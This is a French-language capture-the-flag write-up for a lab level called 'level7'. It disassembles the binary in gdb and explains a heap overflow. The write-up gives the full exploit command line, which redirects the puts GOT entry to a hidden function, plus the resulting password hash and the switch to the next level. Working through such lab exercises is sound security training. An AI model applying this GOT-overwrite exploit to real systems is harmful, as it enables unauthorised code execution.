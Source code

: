 # Level7

On observe un executable a la racine `level7`

```bash
$ ./level7
Segmentation fault (core dumped)

$ ./level7 "Hello World"
Segmentation fault (core dumped)

$ ./level7 "Hello" "World"
~~
```

On cherche donc a comprendre ce que fait l'executable

```bash
$ gdb level7 -q
Reading symbols from /home/user/level7/level7...(no debugging symbols found)...done.
(gdb) set disassembly-flavor intel
(gdb) disas main
Dump of assembler code for function main:
   0x08048521 <+0>:      push   ebp
   0x08048522 <+1>:      mov    ebp,esp
   0x08048524 <+3>:      and    esp,0xfffffff0
   0x08048527 <+6>:      sub    esp,0x20
   0x0804852a <+9>:      mov    DWORD PTR [esp],0x8
   0x08048531 <+16>:     call   0x80483f0 <malloc@plt>
   0x08048536 <+21>:     mov    DWORD PTR [esp+0x1c],eax
   0x0804853a <+25>:     mov    eax,DWORD PTR [esp+0x1c]
   0x0804853e <+29>:     mov    DWORD PTR [eax],0x1
   0x08048544 <+35>:     mov    DWORD PTR [esp],0x8
   0x0804854b <+42>:     call   0x80483f0 <malloc@plt>
   0x08048550 <+47>:     mov    edx,eax
   0x08048552 <+49>:     mov    eax,DWORD PTR [esp+0x1c]
   0x08048556 <+53>:     mov    DWORD PTR [eax+0x4],edx
   0x08048559 <+56>:     mov    DWORD PTR [esp],0x8
   0x08048560 <+63>:     call   0x80483f0 <malloc@plt>
   0x08048565 <+68>:     mov    DWORD PTR [esp+0x18],eax
   0x08048569 <+72>:     mov    eax,DWORD PTR [esp+0x18]
   0x0804856d <+76>:     mov    DWORD PTR [eax],0x2
   0x08048573 <+82>:     mov    DWORD PTR [esp],0x8
   0x0804857a <+89>:     call   0x80483f0 <malloc@plt>
   0x0804857f <+94>:     mov    edx,eax
   0x08048581 <+96>:     mov    eax,DWORD PTR [esp+0x18]
   0x08048585 <+100>:    mov    DWORD PTR [eax+0x4],edx
   0x08048588 <+103>:    mov    eax,DWORD PTR [ebp+0xc]
   0x0804858b <+106>:    add    eax,0x4
   0x0804858e <+109>:    mov    eax,DWORD PTR [eax]
   0x08048590 <+111>:    mov    edx,eax
   0x08048592 <+113>:    mov    eax,DWORD PTR [esp+0x1c]
   0x08048596 <+117>:    mov    eax,DWORD PTR [eax+0x4]
   0x08048599 <+120>:    mov    DWORD PTR [esp+0x4],edx
   0x0804859d <+124>:    mov    DWORD PTR [esp],eax
   0x080485a0 <+127>:    call   0x80483e0 <strcpy@plt>
   0x080485a5 <+132>:    mov    eax,DWORD PTR [ebp+0xc]
   0x080485a8 <+135>:    add    eax,0x8
   0x080485ab <+138>:    mov    eax,DWORD PTR [eax]
   0x080485ad <+140>:    mov    edx,eax
   0x080485af <+142>:    mov    eax,DWORD PTR [esp+0x18]
   0x080485b3 <+146>:    mov    eax,DWORD PTR [eax+0x4]
   0x080485b6 <+149>:    mov    DWORD PTR [esp+0x4],edx
   0x080485ba <+153>:    mov    DWORD PTR [esp],eax
   0x080485bd <+156>:    call   0x80483e0 <strcpy@plt>
   0x080485c2 <+161>:    mov    edx,0x80486e9
   0x080485c7 <+166>:    mov    eax,0x80486eb
   0x080485cc <+171>:    mov    DWORD PTR [esp+0x4],edx
   0x080485d0 <+175>:    mov    DWORD PTR [esp],eax
   0x080485d3 <+178>:    call   0x8048430 <fopen@plt>
   0x080485d8 <+183>:    mov    DWORD PTR [esp+0x8],eax
   0x080485dc <+187>:    mov    DWORD PTR [esp+0x4],0x44
   0x080485e4 <+195>:    mov    DWORD PTR [esp],0x8049960
   0x080485eb <+202>:    call   0x80483c0 <fgets@plt>
   0x080485f0 <+207>:    mov    DWORD PTR [esp],0x8048703
   0x080485f7 <+214>:    call   0x8048400 <puts@plt>
   0x080485fc <+219>:    mov    eax,0x0
   0x08048601 <+224>:    leave
   0x08048602 <+225>:    ret
End of assembler dump.
(gdb) disas m
Dump of assembler code for function m:
   0x080484f4 <+0>:      push   ebp
   0x080484f5 <+1>:      mov    ebp,esp
   0x080484f7 <+3>:      sub    esp,0x18
   0x080484fa <+6>:      mov    DWORD PTR [esp],0x0
   0x08048501 <+13>:     call   0x80483d0 <time@plt>
   0x08048506 <+18>:     mov    edx,0x80486e0
   0x0804850b <+23>:     mov    DWORD PTR [esp+0x8],eax
   0x0804850f <+27>:     mov    DWORD PTR [esp+0x4],0x8049960
   0x08048517 <+35>:     mov    DWORD PTR [esp],edx
   0x0804851a <+38>:     call   0x80483b0 <printf@plt>
   0x0804851f <+43>:     leave
   0x08048520 <+44>:     ret
End of assembler dump.
```

On va utiliser `Cutter` pour avoir un idee plus clair de `level7`

```bash
$ scp -P 4242 -r level7@192.168.56.102:/home/user/level7/level7 .

$ ./Cutter-v2.1.2-Linux-x86_64.AppImage level7
```

_resultat sauvegarde dans [source.md](source.md)_

On cherche a faire pointer la fonction `puts` vers la fonction `m`

Pour cela, nous nous servons du premier `strcpy` pour modifier l'adresse
d'ecriture du second `strcpy` vers le `puts` qui est a l'adresse `0x8049928`

Maintenant que le second `strcpy` est dirige vers le puts, nous allons modifier
la valeur a cette adresse pour pointer vers la fonction `m`

```bash
(gdb) break *main+21
Breakpoint 1 at 0x8048536
(gdb) break *main+68
Breakpoint 2 at 0x8048565
(gdb) run "hello"
Starting program: /home/user/level7/level7 "hello"

Breakpoint 1, 0x08048536 in main ()
(gdb) i r eax
eax            0x804a008	134520840

Breakpoint 2, 0x08048565 in main ()
(gdb) i r eax
eax            0x804a028	134520872
```

<code>0x804a028 - 0x804a008 = 20<sub>16</sub></code>

Nous avons notre premier parametre `python -c 'print ("A"*20) + "\x28\x99\x04\x08"'`

Notre deuxieme parametre est l'adresse de la fonction `m` `\xf4\x84\x04\x08`

Plus qu'a regrouper toute nos string et a essayyer

```bash
$ ./level7 `python -c 'print ("A"*20) + "\x28\x99\x04\x08"'` `python -c 'print "\xf4\x84\x04\x08"'`
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1670340479

level7:$ su level8
Password:

level8:$
```
